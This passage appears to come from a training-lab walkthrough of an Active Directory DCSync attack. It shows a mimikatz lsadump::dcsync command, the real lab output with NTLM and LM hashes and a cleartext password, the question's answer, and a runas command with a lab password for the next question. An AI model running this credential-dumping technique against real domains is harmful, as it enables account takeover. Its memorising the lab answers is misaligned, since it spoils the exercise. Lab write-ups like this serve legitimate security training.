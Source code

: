 **3. DCSync syncron User:**
```
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\syncron
```

**Real Lab Output:**
```
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\syncron

[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\syncron' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : syncron

** SAM ACCOUNT **

SAM Username         : syncron
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000280 ( ENCRYPTED_TEXT_PASSWORD_ALLOWED NORMAL_ACCOUNT )
Account expiration   :
Password last change : 3/2/2022 12:36:15 PM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-5617
Object Relative ID   : 5617

Credentials:
  Hash NTLM: d387b9d2d9f6dda51964194ad2376ee0
    ntlm- 0: d387b9d2d9f6dda51964194ad2376ee0
    ntlm- 1: cf3a5525ee9414229e66279623ed5c58
    lm  - 0: fed98466f2be61fb0409b5a71e2f977f
    lm  - 1: 7649a3cc283466005bd6988f90fd6a68

<SNIP>

* Primary:CLEARTEXT *
    Mycleart3xtP@ss!
```

**🎯 Answer: `Mycleart3xtP@ss!`**

### **🔑 Question 3: "Perform a DCSync attack and submit the NTLM hash for the khartsfield user as your answer."**

#### **Solution Steps:**

**1. Same Authentication Process:**
```cmd
# Use same runas command from previous question
runas /netonly /user:INLANEFREIGHT\adunn powershell
# Password: SyncMaster757
```
